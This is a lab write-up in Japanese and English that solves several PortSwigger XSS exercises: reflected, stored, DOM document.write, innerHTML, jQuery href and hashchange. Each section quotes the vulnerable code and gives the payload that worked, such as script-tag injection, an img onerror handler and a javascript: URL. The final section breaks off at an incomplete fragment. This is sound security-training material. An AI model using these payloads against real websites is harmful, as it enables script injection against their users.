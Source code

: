 # XSS

## Reflected XSS into HTML context with nothing encoded

```text
This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function.
```

`?search`に対し

```html
<script>alert(document.domain)</script>
```

![](./images/README_231115_150815.png)


## Stored XSS into HTML context with nothing encoded

```text
This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the blog post is viewed.
```

commentに対して

```html
<script>alert(document.domain)</script>
```

![](./images/README_231115_152925.png)


## DOM XSS in document.write sink using source location.search
```text
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.
```


```js
<script>
    function trackSearch(query) {
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>
```

```
"><script>alert(1)</script>
```

## DOM XSS in innerHTML sink using source location.search

```text
This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

To solve this lab, perform a cross-site scripting attack that calls the alert function.
```

`innerHTML`がsinkになるラボ。つまり`<script>`でalertを出すことはできない。

[MDN Document](https://developer.mozilla.org/ja/docs/Web/API/Element/innerHTML#%E3%82%BB%E3%82%AD%E3%83%A5%E3%83%AA%E3%83%86%E3%82%A3%E3%81%AE%E8%80%83%E6%85%AE%E4%BA%8B%E9%A0%85)

上記にもあるが、`<img>`を使えば良い。

```html
<span id="searchMessage"></span>
<script>
     function doSearchQuery(query) {
         document.getElementById('searchMessage').innerHTML = query;
     }
     var query = (new URLSearchParams(window.location.search)).get('search');
     if(query) {
         doSearchQuery(query);
     }
 </script>
 ```

ということで以下のペイロードで終わり。

```html
<img src=x onerror=alert(1)>
```

##  DOM XSS in jQuery anchor href attribute sink using location.search source

```text
This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.

To solve this lab, make the "back" link alert document.cookie.
```

feed back部分にXSSが眠っているようです。

```js
<script>
     $(function() {
         $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
     });
 </script>
```

query parameterから、returnPathの値を取得し、backLink

```html
<a id="backLink">Back</a>
```

のhref要素に値を書き込むような処理だと思います。

`https://0a8d005104da6791840722a5004e00a3.web-security-academy.net/feedback?returnPath=/hoge`のようにすると、以下のように変化していることから多分合っているでしょう。

![](./images/README_231119_4550.png)

hrefに対して攻撃をする必要があるので、`javascript:alert(document.domain)`で良いでしょう。

![](./images/README_231119_4745.png)

## DOM XSS in jQuery selector sink using a hashchange event

```text
This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.

To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.
```

```js
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

`https://domain/#c`とした時の`window.locaton.hash.slice(1)`は`c`ということを理解すれば何ら難しいことはないはずです。

```
a)
```
